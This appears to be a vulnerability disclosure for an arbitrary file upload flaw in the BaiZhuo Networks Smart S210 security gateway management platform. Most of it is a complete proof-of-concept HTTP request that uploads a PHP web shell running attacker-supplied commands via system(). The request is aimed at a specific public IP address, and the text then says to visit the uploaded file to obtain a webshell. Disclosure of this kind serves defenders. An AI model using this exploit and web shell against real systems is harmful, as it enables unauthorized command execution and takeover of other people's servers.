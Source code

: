 There is an arbitrary file upload vulnerability in BaiZhuo Networks Smart S210 multi-service security gateway intelligent management platform

# Vulnerability description

Beijing BaiZhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet.
BaiZhuo Networks Smart S210 multi-service security gateway intelligent management platform has an arbitrary file upload vulnerability. An attacker can exploit the vulnerability to gain server permissions and manipulate server files.

# Impact versions of vulnerabilities

Smart S210

# Vulnerability location

/Tool/uploadfile.php

# Details of the vulnerability

IP: https://183.248.30.228:8443/

The login interface is as shown in the figure.

<a href="https://smms.app/image/dexZf7L8z5wsVbk" target="_blank"><img src="https://s2.loli.net/2024/01/17/dexZf7L8z5wsVbk.png" ></a>

Construct POC and upload src.php file

```
POST /Tool/uploadfile.php? HTTP/1.1
Host: 183.248.30.228:8443
Cookie: PHPSESSID=fd847fe4280e50c2c3855ffdee69b8f8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13979701222747646634037182887
Content-Length: 405
Origin: https://183.248.30.228:8443
Referer: https://183.248.30.228:8443/Tool/uploadfile.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="file_upload"; filename="contents.php"
Content-Type: application/octet-stream

<?php
system($_POST["passwd"]);
?>
-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="txt_path"

/home/src.php
-----------------------------13979701222747646634037182887--

```

<a href="https://smms.app/image/ratxfIDBUYEWFOk" target="_blank"><img src="https://s2.loli.net/2024/01/17/ratxfIDBUYEWFOk.png" ></a>

Visit /home/src.php to get webshell.

<a href="https://smms.app/image/7SF93kDMnlqTXvI" target="_blank"><img src="https://s2.loli.net/2024/01/17/7SF93kDMnlqTXvI.png" ></a>